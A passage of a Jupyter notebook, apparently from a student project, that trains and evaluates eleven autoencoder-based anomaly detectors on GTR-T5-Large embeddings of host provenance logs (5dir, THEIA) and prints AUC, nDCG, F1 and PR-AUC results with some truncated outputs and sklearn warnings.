    test_file = os.path.join(test_dir, f"{context}.pkl")
    with open(test_file, 'wb') as f:
        pickle.dump({'X': X_test, 'y': y_test}, f)
        
    print(f"  ✓ Saved to: {train_file} and {test_file}")


# ==========================================
# 2. EXECUTION LOOP
# ==========================================
print(f"Saving organized datasets to: {os.path.abspath(BASE_DIR)}")
print("-" * 80)

if not os.path.exists(SOURCE_FOLDER):
    print(f"[!] Error: The input folder '{SOURCE_FOLDER}' does not exist.")
else:
    files = [f for f in os.listdir(SOURCE_FOLDER) if f.endswith(".pkl")]
    
    if not files:
        print(f"[!] No .pkl files found inside {SOURCE_FOLDER}")
    else:
        print(f"Found {len(files)} datasets. Starting load, split, and save process...\n")
        
        for file in files:
            full_path = os.path.join(SOURCE_FOLDER, file)
            try:
                process_and_save(full_path)
            except MemoryError:
                print(f"  [CRITICAL] MemoryError while processing {file}. RAM is full.")
            except Exception as e:
                print(f"  [!] Unexpected error on {file}: {e}")

print("\n" + "="*80)
print("ORGANIZED SAVE COMPLETE FOR GTR-T5-LARGE!")
print("="*80)

Saving organized datasets to: d:\Waleed FYP\final_train_test_split_gtr_t5_large
--------------------------------------------------------------------------------
Found 25 datasets. Starting load, split, and save process...


Processing: 5dir_ProcessAll_gtr_t5_large.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 1024), Test: (2238, 1024)
  ✓ Saved to: final_train_test_split_gtr_t5_large\5dir\train\ProcessAll.pkl and final_train_test_split_gtr_t5_large\5dir\test\ProcessAll.pkl

Processing: 5dir_ProcessEvent_gtr_t5_large.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 1024), Test: (2238, 1024)
  ✓ Saved to: final_train_test_split_gtr_t5_large\5dir\train\ProcessEvent.pkl and final_train_test_split_gtr_t5_large\5dir\test\ProcessEvent.pkl

Processing: 5dir_ProcessExec_gtr_t5_large.pkl...
  -> Raw Counts: 11068 Benign, 9 Anomalous
  -> Split Complete. Train: (8854, 1024), Test: (2223, 1024)
  ✓ Saved to: final_train_tes

#### Training and saving `.pth` files

In [14]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import torch.optim as optim
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Updated directories for GTR-T5-Large
BASE_DIR = "final_train_test_split_gtr_t5_large"
RESULTS_FILE = "results_all_autoencoders_gtr_t5_large.csv"
MODEL_SAVE_DIR = "saved_weights_gtr_t5_large"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Hyperparameters
BATCH_SIZE = 128    
EPOCHS = 15         
LR = 0.001          

# [FIXED] Updated to 1024 to match the true shape of the generated embeddings
INPUT_DIM = 1024    

# Specialty Hyperparameters
NOISE_FACTOR = 0.2  # Denoising AE
SPARSE_REG = 1e-4   # Sparse AE L1 penalty
BETA = 4.0          # Beta-VAE weight
CAE_LAMBDA = 1e-4   # Contractive AE Jacobian penalty

os.makedirs(MODEL_SAVE_DIR, exist_ok=True)
print(f"Running on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES
# ==========================================

# --- 1, 3, 4, 10, 11. Vanilla AE (Used for Baseline, DAE, Sparse, Robust, Contractive) ---
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# --- 2. Deep SVDD (Encoder mapping to hypersphere center) ---
class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 128) # Small latent space
        )
    def forward(self, x):
        return self.encoder(x)

# --- 5, 6. Variational AE (Used for VAE and Beta-VAE) ---
class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)

    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)

    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std

    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

# --- 7. GMVAE (Simplified Gaussian Mixture VAE) ---
class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu = nn.Linear(1024, 256)
        self.logvar = nn.Linear(1024, 256)
        self.pi = nn.Linear(1024, n_components) # Categorical prior
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
        
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

# --- 8. Attention AE ---
class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
        
    def forward(self, x):
        # Self-attention requires 3D shape: (batch, seq, feature)
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

# --- 9. LSTM AE ---
class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
        
    def forward(self, x):
        # Fake sequence length of 1
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        # Repeat hidden state for decoder (seq_len = 1)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)


# ==========================================
# 3. GENERIC TRAINING FUNCTION
# ==========================================
def train_model(model_name, X_train, X_test, y_test, performer, context):
    
    # Initialize appropriate model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    optimizer = optim.Adam(model.parameters(), lr=LR)
    criterion = nn.L1Loss() if model_name == 'Robust' else nn.MSELoss()

    train_loader = DataLoader(TensorDataset(torch.FloatTensor(X_train).to(DEVICE)), batch_size=BATCH_SIZE, shuffle=True)
    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()
    model.train()
    
    for epoch in range(EPOCHS):
        for batch in train_loader:
            x_batch = batch[0]
            model_input = x_batch
            
            if model_name == 'DAE':
                model_input = x_batch + torch.randn_like(x_batch) * NOISE_FACTOR

            optimizer.zero_grad()
            
            # Forward & Loss branching
            if model_name == 'Deep SVDD':
                z = model(model_input)
                loss = torch.mean(torch.sum((z - center) ** 2, dim=1))
            
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, mu, logvar = model(model_input)
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                kld_loss = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                beta = BETA if model_name == 'Beta-VAE' else 1.0
                loss = recon_loss + beta * kld_loss
                
            elif model_name == 'GMVAE':
                recon, mu, logvar, pi = model(model_input)
                # [FIXED] Proper GMVAE probabilistic loss calculation
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                
                # KL Divergence for continuous latent variables
                kld_z = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                
                # KL Divergence for the categorical mixture prior (assumes uniform target distribution)
                n_components = pi.shape[-1]
                prior_pi = torch.tensor(1.0 / n_components, device=DEVICE)
                kld_pi = torch.sum(pi * torch.log(pi / prior_pi + 1e-8))
                
                loss = recon_loss + kld_z + kld_pi
                
            else:
                recon = model(model_input)
                loss = criterion(recon, x_batch)
                
                # Special Penalties
                if model_name == 'Sparse':
                    l1_penalty = sum(p.abs().sum() for p in model.encoder.parameters())
                    loss += SPARSE_REG * l1_penalty
                elif model_name == 'Contractive':
                    hidden = model.encoder(x_batch)
                    loss += CAE_LAMBDA * torch.sum(hidden ** 2)

            loss.backward()
            optimizer.step()
            
    train_time = time.time() - start_time

    # --- SAVE WEIGHTS FOR SHAP/LIME ---
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}.pth"
    torch.save(model.state_dict(), os.path.join(MODEL_SAVE_DIR, weight_filename))

    # --- EVALUATION ---
    model.eval()
    errors = []
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # --- METRICS CALCULATION ---
    try:
        auc = roc_auc_score(y_test, errors)
    except:
        auc = 0.0

    try:
        # Calculate DCG based on model predictions (errors used as scores)
        dcg = dcg_score([y_test], [errors])
        # Calculate IDCG using the true labels as the perfect ranking scores
        idcg = dcg_score([y_test], [y_test])
        # nDCG is the normalized ratio
        ndcg = ndcg_score([y_test], [errors])
    except Exception as e:
        dcg, idcg, ndcg = 0.0, 0.0, 0.0

    return {
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "DCG": round(dcg, 4),
        "IDCG": round(idcg, 4),
        "nDCG": round(ndcg, 4),
        "Time(s)": round(train_time, 2)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    # Ignore hidden folders like .cache
    performers = [
        p for p in os.listdir(BASE_DIR) 
        if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')
    ]
    
    for performer in performers:
        train_dir = os.path.join(BASE_DIR, performer, "train")
        test_dir = os.path.join(BASE_DIR, performer, "test")
        
        if not os.path.exists(train_dir) or not os.path.exists(test_dir):
            print(f"  [!] Skipping '{performer}' - Train or Test subfolders missing.")
            continue
            
        files = [f for f in os.listdir(train_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nProcessing: {performer.upper()} - {context}")
            
            try:
                with open(os.path.join(train_dir, file), 'rb') as f:
                    X_train = pickle.load(f)['X']
                with open(os.path.join(test_dir, file), 'rb') as f:
                    pkg = pickle.load(f)
                    X_test = pkg['X']
                    y_test = pkg['y']
                
                print(f"  Samples: {len(X_train)} Train | {len(X_test)} Test")

                for m_name in models_to_run:
                    print(f"    -> Training {m_name}...", end=" ")
                    res = train_model(m_name, X_train, X_test, y_test, performer, context)
                    
                    res['Performer'] = performer
                    res['Context'] = context
                    all_results.append(res)
                    print(f"Done. AUC: {res['AUC-ROC']} | nDCG: {res['nDCG']} (DCG: {res['DCG']}, IDCG: {res['IDCG']})")

            except Exception as e:
                print(f"    [!] Failed: {e}")

# ==========================================
# 5. SAVE RESULTS
# ==========================================
if all_results:
    df_res = pd.DataFrame(all_results)
    # Reordered columns to include all metrics cleanly
    df_res = df_res[['Performer', 'Context', 'Model', 'AUC-ROC', 'DCG', 'IDCG', 'nDCG', 'Time(s)']]
    df_res.to_csv(RESULTS_FILE, index=False)
    
    print("\n" + "="*60)
    print("FINAL RESULTS SUMMARY")
    print("="*60)
    print(df_res.to_string(index=False))
    print(f"\nSaved metrics to {RESULTS_FILE}")
    print(f"Saved model weights to ./{MODEL_SAVE_DIR}/")
else:
    print("No results to save.")

Running on Device: CUDA
------------------------------------------------------------

Processing: 5DIR - ProcessAll
  Samples: 8913 Train | 2238 Test
    -> Training Baseline... Done. AUC: 0.9338 | nDCG: 0.3381 (DCG: 1.4385, IDCG: 4.2545)
    -> Training Sparse... Done. AUC: 0.8223 | nDCG: 0.3448 (DCG: 1.4671, IDCG: 4.2545)
    -> Training Deep SVDD... Done. AUC: 0.9176 | nDCG: 0.3749 (DCG: 1.5951, IDCG: 4.2545)
    -> Training DAE... Done. AUC: 0.9342 | nDCG: 0.3426 (DCG: 1.4574, IDCG: 4.2545)
    -> Training VAE... Done. AUC: 0.7685 | nDCG: 0.29 (DCG: 1.2338, IDCG: 4.2545)
    -> Training Beta-VAE... Done. AUC: 0.8267 | nDCG: 0.3432 (DCG: 1.4601, IDCG: 4.2545)
    -> Training GMVAE... Done. AUC: 0.7654 | nDCG: 0.2819 (DCG: 1.1991, IDCG: 4.2545)
    -> Training Attention AE... Done. AUC: 0.9368 | nDCG: 0.3617 (DCG: 1.5387, IDCG: 4.2545)
    -> Training LSTMAE... Done. AUC: 0.9331 | nDCG: 0.3561 (DCG: 1.5149, IDCG: 4.2545)
    -> Training Robust... Done. AUC: 0.9312 | nDCG: 0.3683 (DCG

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Loca

Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training GMVAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Attention AE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training LSTMAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Robust... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Contractive... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Loca

Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)

Processing: THEIA - ProcessAll
  Samples: 223415 Train | 55954 Test
    -> Training Baseline... Done. AUC: 0.9986 | nDCG: 0.8436 (DCG: 17.6635, IDCG: 20.9387)
    -> Training Sparse... Done. AUC: 0.8277 | nDCG: 0.3776 (DCG: 7.9068, IDCG: 20.9387)
    -> Training Deep SVDD... Done. AUC: 0.7947 | nDCG: 0.6513 (DCG: 13.6372, IDCG: 20.9387)
    -> Training DAE... Done. AUC: 0.989 | nDCG: 0.6306 (DCG: 13.2031, IDCG: 20.9387)
    -> Training VAE... Done. AUC: 0.8252 | nDCG: 0.376 (DCG: 7.8722, IDCG: 20.9387)
    -> Training Beta-VAE... Done. AUC: 0.8315 | nDCG: 0.3769 (DCG: 7.8922, IDCG: 20.9387)
    -> Training GMVAE... Done. AUC: 0.817 | nDCG: 0.3748 (DCG: 7.8473, IDCG: 20.9387)
    -> Training Attention AE... Done. AUC: 0.8306 | nDCG: 0.3785 (DCG: 7.9261, IDCG: 20.9387)
    -> Training LSTMAE... Done. AUC: 0.9966 | nDCG: 0.8377 (DCG: 17.5401, IDCG: 20.9387)
    -> Training Robust... Done. AUC: 0.9985 | nDCG: 0.8826 (DCG: 18.4795, IDCG: 20.

In [2]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import (
    roc_auc_score, 
    average_precision_score, 
    precision_recall_curve,
    precision_score, 
    recall_score, 
    f1_score, 
    accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Parameterized for easy switching between models
EMBEDDING_NAME = "gtr_t5_large" 

BASE_DIR = f"final_train_test_split_{EMBEDDING_NAME}"
MODEL_SAVE_DIR = f"saved_weights_{EMBEDDING_NAME}"
RESULTS_FILE = f"NEW_comprehensive_metrics_{EMBEDDING_NAME}.csv"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CRITICAL UPDATE] sentence-transformers/gtr-t5-large outputs 768 dimensions
INPUT_DIM = 1024

print(f"Running INFERENCE ONLY for {EMBEDDING_NAME.upper()} on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES (Must match exactly)
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x):
        return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)
    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)
    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std
    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu, self.logvar, self.pi = nn.Linear(1024, 256), nn.Linear(1024, 256), nn.Linear(1024, n_components)
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        return self.decoder(self.encoder(attn_out.squeeze(1)))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        _, (hidden, _) = self.encoder(x.unsqueeze(1))
        out, _ = self.decoder(hidden[-1].unsqueeze(1))
        return out.squeeze(1)


# ==========================================
# 3. FAST EVALUATION FUNCTION
# ==========================================
def evaluate_model(model_name, X_test, y_test, performer, context):
    
    # 1. Initialize empty model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    # 2. DYNAMIC WEIGHT FINDER
    mod_name_clean = model_name.replace(' ', '')
    
    # Automatically cleans the context string using the current EMBEDDING_NAME
    base_context = context.replace(f'_{EMBEDDING_NAME}', '') 
    
    matched_weight_file = None
    if os.path.exists(MODEL_SAVE_DIR):
        for f in os.listdir(MODEL_SAVE_DIR):
            # Check if all identifying parts are in the filename, regardless of exact order
            if performer in f and mod_name_clean in f and base_context in f and f.endswith('.pth'):
                matched_weight_file = f
                break
    
    if not matched_weight_file:
        return None # Skip if weights don't exist
        
    weight_path = os.path.join(MODEL_SAVE_DIR, matched_weight_file)
    model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    model.eval()

    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()

    # 3. Do a single Forward Pass (Inference)
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # 4. Calculate All Metrics
    try:
        auc = roc_auc_score(y_test, errors)
        pr_auc = average_precision_score(y_test, errors)
        
        # Max F1 Thresholding
        precisions, recalls, thresholds = precision_recall_curve(y_test, errors)
        f1_scores = np.divide(2 * precisions * recalls, precisions + recalls, out=np.zeros_like(precisions), where=(precisions + recalls) != 0)
        best_idx = np.argmax(f1_scores)
        best_threshold = thresholds[best_idx] if best_idx < len(thresholds) else thresholds[-1]
        
        y_pred = (errors >= best_threshold).astype(int)
        
        precision = precision_score(y_test, y_pred, zero_division=0)
        recall = recall_score(y_test, y_pred, zero_division=0)
        f1 = f1_score(y_test, y_pred, zero_division=0)
        accuracy = accuracy_score(y_test, y_pred)
        
    except Exception as e:
        auc, pr_auc, precision, recall, f1, accuracy = 0.0, 0.0, 0.0, 0.0, 0.0, 0.0

    eval_time = time.time() - start_time

    return {
        "Performer": performer,
        "Context": context,
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Inference Time(s)": round(eval_time, 4)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        test_dir = os.path.join(BASE_DIR, performer, "test")
        if not os.path.exists(test_dir): continue
            
        files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
        
        for file in files:
            # Ignore specific files per prior instruction
            if file == "all_data_with_sentences.pkl":
                continue
                
            context = file.replace('.pkl', '')
            print(f"\nEvaluating: {performer.upper()} - {context}")
            
            with open(os.path.join(test_dir, file), 'rb') as f:
                pkg = pickle.load(f)
                X_test, y_test = pkg['X'], pkg['y']

            for m_name in models_to_run:
                res = evaluate_model(m_name, X_test, y_test, performer, context)
                if res is None:
                    print(f"    [!] Skipping {m_name}... Weights not found in {MODEL_SAVE_DIR}.")
                else:
                    all_results.append(res)
                    print(f"    -> {m_name} Done! F1: {res['F1-Score']} | PR-AUC: {res['PR-AUC']}")

if all_results:
    df_res = pd.DataFrame(all_results)
    df_res.to_csv(RESULTS_FILE, index=False)
    print("\n" + "="*60)
    print(f"SUCCESS! Extracted all new metrics without retraining.")
    print(f"Saved to {RESULTS_FILE}")
    print("="*60)

Running INFERENCE ONLY for GTR_T5_LARGE on Device: CUDA
------------------------------------------------------------

Evaluating: 5DIR - ProcessAll
    -> Baseline Done! F1: 0.1053 | PR-AUC: 0.0443
    -> Sparse Done! F1: 0.1739 | PR-AUC: 0.0556
    -> Deep SVDD Done! F1: 0.1739 | PR-AUC: 0.0708
    -> DAE Done! F1: 0.1091 | PR-AUC: 0.047
    -> VAE Done! F1: 0.1905 | PR-AUC: 0.062
    -> Beta-VAE Done! F1: 0.1667 | PR-AUC: 0.0588
    -> GMVAE Done! F1: 0.0519 | PR-AUC: 0.0158
    -> Attention AE Done! F1: 0.1429 | PR-AUC: 0.0557
    -> LSTMAE Done! F1: 0.1429 | PR-AUC: 0.0526
    -> Robust Done! F1: 0.1538 | PR-AUC: 0.059
    -> Contractive Done! F1: 0.1818 | PR-AUC: 0.06

Evaluating: 5DIR - ProcessEvent
    -> Baseline Done! F1: 0.0851 | PR-AUC: 0.0297
    -> Sparse Done! F1: 0.0909 | PR-AUC: 0.0253
    -> Deep SVDD Done! F1: 0.1081 | PR-AUC: 0.0379
    -> DAE Done! F1: 0.0896 | PR-AUC: 0.0247
    -> VAE Done! F1: 0.0968 | PR-AUC: 0.0254
    -> Beta-VAE Done! F1: 0.0968 | PR-AUC: 0.0

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> VAE Done! F1: 0.0 | PR-AUC: 0.0
